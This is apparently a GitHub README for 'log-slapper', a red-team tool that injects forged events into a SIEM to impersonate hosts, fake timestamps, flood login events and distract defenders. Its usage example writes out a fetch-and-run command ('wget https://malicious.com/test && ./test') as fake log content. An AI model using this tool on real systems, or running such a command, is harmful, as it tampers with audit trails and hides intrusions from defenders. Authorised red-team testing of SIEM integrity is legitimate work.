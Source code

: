 # log-slapper 👹
<p align="center">
<img width="600" align="center" alt="image"  src="https://github.com/oz9un/log-slapper/assets/57866851/fd320c4b-5c90-45d3-a477-2fc44e1cf66d">
</p>

<br>

**Every company undoubtedly trusts its SIEM, right? Think twice, we can inject fake logs, distract BT's and hide our attacks.**


## description
log-slapper is the offensive security tool for red-teamers and specifically designed for post-exploit part of the campaign.
<br>


log-slapper can:
- mimic attacks on behalf of any other computer on the network
- run in interactive mode: Target Shell Playzone
- send logs from future and past: HEC based Time Traveller's attack 
- perform built-in attacks like login success/fail spam, new process creations

## usage
<img width="500" alt="image" src="https://github.com/oz9un/log-slapper/assets/57866851/a564c9c5-9bcf-4ff8-b4ee-941c359e45bd">
<br>
<br>

go into interactive mode:
```
./log-slapper interactive
```
send log as "payment-server-01" got hacked and malicious code is running:

```
./log-slapper nix_command --hostname "payment-server-01" --ip "23.32.45.123" -t "e270e632-861f-45cc-8f00-f91eb895f5e6" --exectime "10/10/2021 08:45" --command "wget https://malicious.com/test && ./test"
```

